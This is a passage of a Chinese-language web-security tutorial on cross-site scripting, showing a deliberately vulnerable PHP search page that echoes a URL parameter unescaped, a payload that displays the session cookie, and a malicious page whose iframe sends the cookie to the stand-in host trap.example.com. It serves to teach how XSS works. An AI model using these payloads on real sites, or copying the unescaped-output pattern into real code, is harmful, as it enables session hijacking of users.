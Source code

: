 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```








